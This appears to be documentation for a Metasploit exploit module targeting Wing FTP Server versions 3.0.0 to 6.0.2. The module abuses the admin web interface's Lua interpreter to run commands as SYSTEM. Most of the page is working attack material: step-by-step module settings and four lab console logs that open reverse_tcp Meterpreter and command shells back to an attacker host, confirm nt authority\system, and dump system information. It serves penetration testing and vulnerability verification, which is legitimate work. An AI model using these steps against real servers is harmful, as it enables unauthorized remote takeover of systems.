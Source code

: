 ## Description ##

This module exploits the embedded Lua interpreter in the admin web interface for versions 3.0.0 and above of Wing FTP Server. When supplying a specially crafted HTTP POST request an attacker can use os.execute() to execute arbitrary system commands on the target with SYSTEM privileges.

Only versions of Wing FTP Server after 3.0.0 ship with the Lua interpreter and the admin web interface. This makes versions < 3.0.0 most probably NOT vulnerable to this exploit, simply due to the fact that they do not have the capability execute commands this way.

The full changelog for Wing FTP Server can be found at [https://www.wftpserver.com/serverhistory.htm].

Information about the admin web interface can be found at [https://www.wftpserver.com/help/ftpserver/index.html?administrator_console.htm].

## Vulnerable application ##

3.0.0 <= Wing FTP Server Version <= 6.0.2

## Verification Steps ##

1. Start `msfconsole`
2. Do `use exploit/windows/ftp/wing_ftp_admin_exec`
3. Do `set RHOST <target-ip>`
4. Do `set USERNAME <valid-username>`
5. Do `set PASSWORD <valid-password>`
6. Optional: Do `set PAYLOAD windows/<your-preferred-shell>` (default is `windows/meterpreter/reverse_tcp`)
7. Do `set LHOST <your-ip>`
8. Optional: Do `set TARGET <target>` to specify whether PowerShell/CmdStager will be used (default is `PowerShell`)
9. Do `exploit`
10. Verify that a shell of your specified type (Meterpreter, plain old shell, etc.) pops

## Tested with Wing FTP Server 4.3.8 and 6.0.2, installed on Windows Server 2016 Datacenter x64 ##

### With PowerShell using x64 meterpreter ###

```
msf5 > use exploit/windows/ftp/wing_ftp_admin_exec 
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 192.168.136.151
RHOST => 192.168.136.151
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set PASSWORD 5up3r53kr3tp@$$w0rd
PASSWORD => 5up3r53kr3tp@$$w0rd
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Authenticating...
[+] Wing FTP Server 4.3.8 appears vulnerable.
[*] Executing payload via Powershell...
[*] Sending stage (206403 bytes) to 192.168.136.151
[*] Meterpreter session 1 opened (192.168.136.146:4444 -> 192.168.136.151:17007) at 2018-12-08 02:44:27 +0800

meterpreter > sysinfo
Computer        : 2K16DTCTR
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### with PowerShell using x86 shell_reverse_tcp ###

```
msf5 > use exploit/windows/ftp/wing_ftp_admin_exec
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 192.168.136.151
RHOST => 192.168.136.151
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set PASSWORD 5up3r53kr3tp@$$w0rd
PASSWORD => 5up3r53kr3tp@$$w0rd
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set PAYLOAD windows/shell_reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Authenticating...
[+] Wing FTP Server 4.3.8 appears vulnerable.
[*] Executing payload via Powershell...
[*] Command shell session 2 opened (192.168.136.146:4444 -> 192.168.136.151:17067) at 2018-12-08 02:45:48 +0800



C:\Windows\system32>whoami & hostname & systeminfo
whoami & hostname & systeminfo
nt authority\system
2K16DTCTR

Host Name:                 2K16DTCTR
OS Name:                   Microsoft Windows Server 2016 Datacenter
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
<... snip ...>
Network Card(s):           2 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.136.254
                                 IP address(es)
                                 [01]: 192.168.136.151
                                 [02]: fe80::8cb0:9bf1:fefe:5fbd
                           [02]: Microsoft KM-TEST Loopback Adapter
                                 Connection Name: Npcap Loopback Adapter
                                 Status:          Hardware not present
<... snip ...>
```

### with CmdStager using x64 meterpreter ###

```
msf > use exploit/windows/ftp/wing_ftp_admin_exec
msf exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 192.168.136.151
RHOST => 192.168.136.151
msf exploit(windows/ftp/wing_ftp_admin_exec) > set USERNAME admin
USERNAME => admin
msf exploit(windows/ftp/wing_ftp_admin_exec) > set PASSWORD 5up3r53kr3tp@$$w0rd
PASSWORD => 5up3r53kr3tp@$$w0rd
msf exploit(windows/ftp/wing_ftp_admin_exec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/ftp/wing_ftp_admin_exec) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf exploit(windows/ftp/wing_ftp_admin_exec) > set TARGET CmdStager 
TARGET => CmdStager
msf exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Authenticating...
[+] Wing FTP Server 4.3.8 appears vulnerable.
[*] Sending payload
[*] Command Stager progress -  12.42% done (1499/12068 bytes)
[*] Command Stager progress -  24.84% done (2998/12068 bytes)
[*] Command Stager progress -  37.26% done (4497/12068 bytes)
[*] Command Stager progress -  49.69% done (5996/12068 bytes)
[*] Command Stager progress -  62.11% done (7495/12068 bytes)
[*] Command Stager progress -  74.53% done (8994/12068 bytes)
[*] Command Stager progress -  86.53% done (10442/12068 bytes)
[*] Command Stager progress -  98.75% done (11917/12068 bytes)
[*] Sending stage (206403 bytes) to 192.168.136.151
[*] Command Stager progress - 100.00% done (12068/12068 bytes)
[*] Meterpreter session 3 opened (192.168.136.146:4444 -> 192.168.136.151:1631) at 2018-12-07 02:49:01 +0800

meterpreter > sysinfo
Computer        : 2K16DTCTR
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### With CmdStager using x86 shell_reverse_tcp ###

```
msf > use exploit/windows/ftp/wing_ftp_admin_exec
msf exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 192.168.136.151
RHOST => 192.168.136.151
msf exploit(windows/ftp/wing_ftp_admin_exec) > set USERNAME admin
USERNAME => admin
msf exploit(windows/ftp/wing_ftp_admin_exec) > set PASSWORD 5up3r53kr3tp@$$w0rd
PASSWORD => 5up3r53kr3tp@$$w0rd
msf exploit(windows/ftp/wing_ftp_admin_exec) > set PAYLOAD windows/shell_reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
msf exploit(windows/ftp/wing_ftp_admin_exec) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf exploit(windows/ftp/wing_ftp_admin_exec) > set TARGET CmdStager 
TARGET => CmdStager
msf exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Authenticating...
[+] Wing FTP Server 4.3.8 appears vulnerable.
[*] Sending payload
[*] Command Stager progress -   1.47% done (1499/102292 bytes)
[*] Command Stager progress -   2.93% done (2998/102292 bytes)
[*] Command Stager progress -   4.40% done (4497/102292 bytes)
[*] Command Stager progress -   5.86% done (5996/102292 bytes)
[*] Command Stager progress -   7.33% done (7495/102292 bytes)
[*] Command Stager progress -   8.79% done (8994/102292 bytes)
[*] Command Stager progress -  10.26% done (10493/102292 bytes)
<... snip ...>
[*] Command Stager progress -  99.55% done (101827/102292 bytes)
[*] Command Stager progress - 100.00% done (102292/102292 bytes)
[*] Command shell session 4 opened (192.168.136.146:4444 -> 192.168.136.151:1639) at 2018-12-07 02:52:10 +0800


C:\Windows\system32>whoami & hostname & systeminfo
whoami & hostname & systeminfo
nt authority\system
2K16DTCTR

Host Name:                 2K16DTCTR
OS Name:                   Microsoft Windows Server 2016 Datacenter
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
<... snip ...>
Network Card(s):           2 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.136.254
                                 IP address(es)
                                 [01]: 192.168.136.151
                                 [02]: fe80::8cb0:9bf1:fefe:5fbd
                           [02]: Microsoft KM-TEST Loopback Adapter
                                 Connection Name: Npcap Loopback Adapter
                                 Status:          Hardware not present
<... snip ...>
```
